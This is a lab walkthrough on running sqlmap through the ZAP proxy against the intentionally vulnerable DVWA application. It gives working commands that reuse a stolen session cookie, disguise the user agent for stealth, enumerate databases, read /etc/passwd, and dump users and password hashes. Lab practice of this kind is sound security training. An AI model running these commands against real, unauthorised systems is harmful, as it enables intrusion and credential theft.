

sqlmap + Proxy(ZAP)
Vulnerable machine used in this lab:
https://www.vulnhub.com/entry/damn-vulnerable-web-application-dvwa-107,43/Test
for In-Band/Inline
SQLi-error based (Simplest form of SQLi visibility type) 1) Valid value
2) value followed by single quote
(
') →
1' Execution of sqlmap against the target using a cookie and
proxied through ZAP1. Go to the History of ZAP and select the Request(GET) with the cookie of the
site visited with the Browser
2. Highlight the COOKIE and copy it
PHPSESSID=tq2k875ke0bsekiikf7mph4dn4
3. Use the COOKIE with sqlmap
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PASTE COPIED COOKIE HERE" --proxy http://localhost:8081 --batch
Customize
sqlmap User Agent(UA)The default User Agent used by sqlmap is
sqlmap/1.3.6.57#dev (http://sqlmap.org). We need to change it, if we want to be more stealty
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="tq2k875ke0bsekiikf7mph4dn4" --proxy http://localhost:8081 --batch --user-agent MozillaFox
Enumerate the
Databases
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --proxy http://localhost:8081 --batch --user-agent MozillaFox --dbs
List table of
a database that we have found
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --proxy http://localhost:8081 --batch --user-agent MozillaFox -D [database] --tables
Only count
the row in a table without disclose themIf we interact with an
application that store sensitive data and the organization does not want
that is disclosed, even to you, we can also only count the numbers of the table. This operation anyway means also
that we could have exfiltrated the data
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --proxy http://localhost:8081 --batch --user-agent MozillaFox -D sqli -T Customers --count
Read file on
the System
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --proxy http://localhost:8081 --batch --user-agent MozillaFox --file-read /etc/passwd
Note that rather than displaying the information, sqlmap writes the file locally here:
$HOME/.sqlmap/output/[site]/files/
root@kali:/# cat [savedFile]
Dump
database users and password hashes
root@kali:/# sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --proxy http://localhost:8081 --batch --user-agent MozillaFox --file-read /etc/passwd --users --passwords
◇ Users
◇ Password
Hashes (It take some time, dictionay based cracking)
Search name of columns inside a big databaseIf
we a Database with a lot of Tables and inside these Tables a lot of columns, is useful do a quick search for
relevant results
Switch
--search needs to be used in conjunction with one of the following support
options:
◇
-C following a list of comma-separated column names to look for across the whole
database management system
◇
-T following a list of comma-separated table names to look for
across the whole database management system
◇
-D following a list of comma-separated database
names to look for across the database management system
sqlmap -u "https://dvwa.example.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --proxy http://localhost:8081 --batch --user-agent MozillaFox -D my_wiki --search -C [keyword] --batch